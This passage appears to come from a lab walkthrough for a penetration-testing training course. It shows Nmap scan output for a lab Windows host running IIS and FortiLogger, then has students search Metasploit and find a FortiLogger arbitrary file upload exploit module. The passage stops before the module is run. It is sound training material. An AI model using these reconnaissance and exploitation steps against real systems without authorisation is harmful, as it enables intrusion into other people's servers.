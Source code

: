 ```
[*] Nmap: | http-methods:
[*] Nmap: |_  Potentially risky methods: TRACE
[*] Nmap: |_http-server-header: Microsoft-IIS/10.0
[*] Nmap: Aggressive OS guesses: Microsoft Windows 10 1709 - 1909 (93%), Microsoft Windows Server 2012 (93%), Microsoft Windows Vista SP1 (92%), Microsoft Windows Longhorn (92%), Microsoft Windows 10 1709 - 1803 (91%), Microsoft Windows 10 1809 - 1909 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 Update 1 (91%), Microsoft Windows Server 2016 build 10586 - 14393 (91%), Microsoft Windows 7, Windows Server 2012, or Windows 8.1 Update 1 (91%)
[*] Nmap: No exact OS matches for host (test conditions non-ideal).
[*] Nmap: Network Distance: 2 hops
[*] Nmap: Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
[*] Nmap: Host script results:
[*] Nmap: | smb2-security-mode:
[*] Nmap: |   3.1.1:
[*] Nmap: |_    Message signing enabled but not required
[*] Nmap: | smb2-time:
[*] Nmap: |   date: 2022-06-16T02:42:23
[*] Nmap: |_  start_date: N/A
[*] Nmap: TRACEROUTE (using port 8888/tcp)
[*] Nmap: HOP RTT      ADDRESS
[*] Nmap: 1   76.81 ms 10.10.14.1
[*] Nmap: 2   76.14 ms 10.129.173.75
[*] Nmap: OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 24.98 seconds
```

Students will notice that on port 5000, `IIS` version 10.0 is running `FortiLogger`, a log and reporting software:

![[HTB Solutions/CPTS/z. images/16f986a441d94c111441a197ef78bf69_MD5.jpg]]

Within `msfconsole`, students need to search for exploits for `FortiLogger` using the `search` command:

Code: shell

```shell
search FortiLogger
```

```
msf6 > search FortiLogger

Matching Modules
================

   #  Name                                                   Disclosure Date  Rank    Check  Description
   -  ----                                                   ---------------  ----    -----  -----------
   0  exploit/windows/http/fortilogger_arbitrary_fileupload  2021-02-26       normal  Yes    FortiLogger Arbitrary File Upload Exploit

Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/fortilogger_arbitrary_fileupload
```
